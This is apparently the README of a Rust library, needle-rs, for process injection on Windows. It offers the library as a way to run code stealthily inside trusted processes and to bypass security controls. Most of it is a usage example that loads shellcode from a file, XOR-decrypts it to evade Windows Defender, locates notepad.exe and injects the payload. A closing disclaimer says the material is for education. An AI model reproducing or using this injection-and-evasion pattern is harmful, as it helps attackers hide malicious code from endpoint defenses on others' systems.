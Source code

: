 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```TOML
# Cargo.toml
# ...
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```
```RUST
use needle::{
    cypher::{PayloadCypher, XorCypher},
    find_process, inject, Shellcode,
};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");
const KEY: u8 = 0x42;

fn main() {
    // The payload is encrypted one time using XorCypher
    // -> Allows for bypassing windows defender on my machine
    let payload = XorCypher::<Shellcode>::from_encrypted(SHELL_CODE, KEY);
    
    let process = find_process("notepad.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}

```
**If anyone is interested in implementing other platforms/methods/cyphers, please feel free to contribute 👍**

## Disclaimer
Information and code provided on this repository are for educational purposes only. The creator is in no way responsible for any direct or indirect damage caused due to the misuse of the information.